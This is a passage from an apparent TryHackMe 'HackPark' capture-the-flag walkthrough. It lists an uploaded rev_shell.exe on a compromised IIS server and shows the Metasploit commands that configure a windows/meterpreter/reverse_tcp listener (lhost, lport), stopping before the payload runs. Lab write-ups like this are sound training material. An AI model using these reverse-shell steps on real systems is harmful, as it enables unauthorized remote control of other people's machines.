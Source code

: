 Upload it to the target machine like you did with the exploit.

![](../assets/images/tryhackme/offensive_pentesting/hackpark/privesc1.png)

Let's locate it in the terminal (IIS server files are usually found at c:\inetpub\wwwroot).

```bash
cd c:\inetpub\wwwroot\App_Data\files
c:\inetpub\wwwroot\App_Data\files>cd c:\inetpub\wwwroot\App_Data\files
dir
c:\inetpub\wwwroot\App_Data\files>dir
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552
 Directory of c:\inetpub\wwwroot\App_Data\files
09/22/2024  06:41 AM    <DIR>          .
09/22/2024  06:41 AM    <DIR>          ..
08/04/2019  03:11 PM           103,419 26572c3a-0e51-4a9f-9049-b64e730ca75d.jpg
09/22/2024  06:07 AM             3,504 PostView.ascx
09/22/2024  06:41 AM            73,802 rev_shell.exe
               3 File(s)        180,725 bytes
               2 Dir(s)  39,130,165,248 bytes free
```

Before running the payload you need to setup a meterpreter listener so fire up metasploit with `msfconsole` and execute the following commands.

```bash
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.10.75.156
lhost => 10.10.75.156
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
```
